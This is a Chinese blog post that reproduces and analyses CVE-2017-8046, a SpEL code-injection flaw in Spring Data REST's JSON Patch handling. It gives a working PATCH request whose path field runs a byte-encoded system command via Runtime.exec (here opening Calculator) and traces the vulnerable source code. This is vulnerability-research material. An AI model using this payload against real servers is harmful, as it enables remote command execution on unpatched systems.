





# CVE-2017-8046 复现与分析 - colorway - 博客园

> 原文：[`www.cnblogs.com/co10rway/p/9380441.html`](https://www.cnblogs.com/co10rway/p/9380441.html)

## 环境搭建

使用的项目为 https://github.com/spring-guides/gs-accessing-data-rest.git 里面的 complete，直接用 IDEA 导入，并修改 pom.xml 中版本信息为漏洞版本。这里改为 1.5.6。



之前尝试搭建了另一个验证环境，但是修改版本后加载一直报错，不知道是什么原因，写完在研究下。

直接运行，默认端口 8080，访问 http://localhost:8080/



people 类有两个属性，firstName 和 lastName

```
 1 package hello; 2 
 3 import javax.persistence.Entity; 4 import javax.persistence.GeneratedValue; 5 import javax.persistence.GenerationType; 6 import javax.persistence.Id; 7 
 8 @Entity
 9 public class Person { 10 
11 @Id 12     @GeneratedValue(strategy = GenerationType.AUTO) 13     private long id; 14 
15     private String firstName; 16     private String lastName; 17 
18     public String getFirstName() { 19         return firstName; 20 } 21 
22     public void setFirstName(String firstName) { 23         this.firstName = firstName; 24 } 25 
26     public String getLastName() { 27         return lastName; 28 } 29 
30     public void setLastName(String lastName) { 31         this.lastName = lastName; 32 } 33 }
```

根据 rest api 规定，用 POST 请求新建一个 people，请求如下

POST /people HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 32

{"firstName":"w","lastName":"q"}



此时已创建一个 people 对象，通过 GET 请求可以访问对象


## 漏洞复现

需要用 PATCH 方法，而且请求格式为 JSON。根据 RFC 6902，发送 JSON 文档结构需要注意以下两点：

1、请求头为 Content-Type: application/json-patch+json

2、需要参数 op、路径 path，其中 op 所支持的方法很多，如 test，add，replace 等，path 参数则必须使用斜杠分割

这样我们就可以构造 payload 了

PATCH /people/1 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type:application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 256

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{111,112,101,110,32,47,65,112,112,108,105,99,97,116,105,111,110,115,47,67,97,108,99,117,108,97,116,111,114,46,97,112,112}))/lastName", "value": "vulhub" }]

参数 path 存在代码注入，可执行系统命令，这里运行的命令是 open /Applications/Calculator.app，成功弹出计算器



## 漏洞分析

入口文件是位于`org.springframework.data.rest.webmvc.config.JsonPatchHandler:apply()`中



通过`request.isJsonPatchRequest`确定是 PATCH 请求之后，调用`applyPatch(request.getBody(), target);`。其中`isJsonPatchRequest`的判断方法是

```
1 public boolean isJsonPatchRequest() { 2     // public static final MediaType JSON_PATCH_JSON = MediaType.valueOf("application/json-patch+json");
3     return isPatchRequest() && RestMediaTypes.JSON_PATCH_JSON.isCompatibleWith(contentType); 4 }
```

所以这就要求我们使用 PATCH 方法时，contentType 要为 application/json-patch+json。

继续跟踪进入到 applyPatch()方法中：

```
1 <T> T applyPatch(InputStream source, T target) throws Exception { 2     return getPatchOperations(source).apply(target, (Class<T>) target.getClass()); 3 }
```

继续跟踪进入到 getPatchOperations()中：

```
1 private Patch getPatchOperations(InputStream source) { 2     try { 3         return new JsonPatchPatchConverter(mapper).convert(mapper.readTree(source)); 4     } catch (Exception o_O) { 5         throw new HttpMessageNotReadableException( 6                 String.format("Could not read PATCH operations! Expected %s!", RestMediaTypes.JSON_PATCH_JSON), o_O); 7 } 8 }
```

利用 mapper 初始化 JsonPatchPatchConverter()对象之后调用 convert()方法。跟踪`org.springframework.data.rest.webmvc.json.patch.JsonPatchPatchConverter:convert()`方法

```
 1 public Patch convert(JsonNode jsonNode) { 2         if (!(jsonNode instanceof ArrayNode)) { 3             throw new IllegalArgumentException("JsonNode must be an instance of ArrayNode");
 4         } else { 5             ArrayNode opNodes = (ArrayNode)jsonNode; 6             List<PatchOperation> ops = new ArrayList(opNodes.size()); 7             Iterator elements = opNodes.elements(); 8 
 9             while(elements.hasNext()) { 10                 JsonNode opNode = (JsonNode)elements.next(); 11                 String opType = opNode.get("op").textValue(); 12                 String path = opNode.get("path").textValue(); 13                 JsonNode valueNode = opNode.get("value"); 14                 Object value = this.valueFromJsonNode(path, valueNode); 15                 String from = opNode.has("from") ? opNode.get("from").textValue() : null; 16                 if (opType.equals("test")) { 17                     ops.add(new TestOperation(path, value)); 18                 } else if (opType.equals("replace")) { 19                     ops.add(new ReplaceOperation(path, value)); 20                 } else if (opType.equals("remove")) { 21                     ops.add(new RemoveOperation(path)); 22                 } else if (opType.equals("add")) { 23                     ops.add(new AddOperation(path, value)); 24                 } else if (opType.equals("copy")) { 25                     ops.add(new CopyOperation(path, from)); 26                 } else { 27                     if (!opType.equals("move")) { 28                         throw new PatchException("Unrecognized operation type: " + opType); 29 } 30 
31                     ops.add(new MoveOperation(path, from)); 32 } 33 } 34 
35             return new Patch(ops); 36 } 37     }
```

convert()方法返回 Patch()对象，其中的 ops 包含了我们的 payload。进入到`org.springframework.data.rest.webmvc.json.patch.Patch`中,

```
1 public Patch(List<PatchOperation> operations) { 2     this.operations = operations; 3 }
```

通过上一步地分析，ops 是一个 List<PatchOperation>对象，每一个 PatchOperation 对象中包含了 op、path、value 三个内容。进入到 PatchOperation 分析其赋值情况

```
1 public PatchOperation(String op, String path, Object value) { 2 
3     this.op = op; 4     this.path = path; 5     this.value = value; 6     this.spelExpression = pathToExpression(path); 7 }
```

进入到 pathToExpression()中

```
1 public static Expression pathToExpression(String path) { 2     return SPEL_EXPRESSION_PARSER.parseExpression(pathToSpEL(path)); 3 }
```

可以看到这是一个 SPEL 表达式解析操作，但是在解析之前调用了 pathToSpEL()。进入到 pathToSpEL()中。

```
 1 private static String pathToSpEL(String path) { 2     return pathNodesToSpEL(path.split("\\/"));          // 使用/分割路径
 3 }
 4 
 5 private static String pathNodesToSpEL(String[] pathNodes) { 6     StringBuilder spelBuilder = new StringBuilder(); 7     for (int i = 0; i < pathNodes.length; i++) {
 8         String pathNode = pathNodes[i]; 9         if (pathNode.length() == 0) { 10             continue; 11 } 12         if (APPEND_CHARACTERS.contains(pathNode)) { 13             if (spelBuilder.length() > 0) { 14                 spelBuilder.append(".");            // 使用.重新组合路径
15 } 16             spelBuilder.append("$[true]"); 17             continue; 18 } 19         try { 20             int index = Integer.parseInt(pathNode); 21             spelBuilder.append('[').append(index).append(']'); 22         } catch (NumberFormatException e) { 23             if (spelBuilder.length() > 0) { 24                 spelBuilder.append('.'); 25 } 26 spelBuilder.append(pathNode); 27 } 28 } 29     String spel = spelBuilder.toString(); 30     if (spel.length() == 0) { 31         spel = "#this"; 32 } 33     return spel; 34 }
```

重新回到`org.springframework.data.rest.webmvc.config.JsonPatchHandler:applyPatch()`中，

```
1 T applyPatch(InputStream source, T target) throws Exception { 2     return getPatchOperations(source).apply(target, (Class<T>) target.getClass()); 3 }
```

实际上 PatchOperation 是一个抽象类，实际上应该调用其实现类的 perform()方法。通过动态调试分析，此时的 operation 实际是 ReplaceOperation 类的实例(这也和我们传入的 replace 操作是对应的)。进入到 ReplaceOperation:perform()中，

```
1 <T> void perform(Object target, Class<T> type) { 2 setValueOnTarget(target, evaluateValueFromTarget(target, type)); 3 } 4 
5 protected void setValueOnTarget(Object target, Object value) { 6 spelExpression.setValue(target, value); 7 }
```

在 setValueOnTarget()中会调用 spelExpression 对 spel 表示式进行解析，从而触发漏洞。

## 漏洞验证

明天用 pocsuite 写下 poc，现在困了。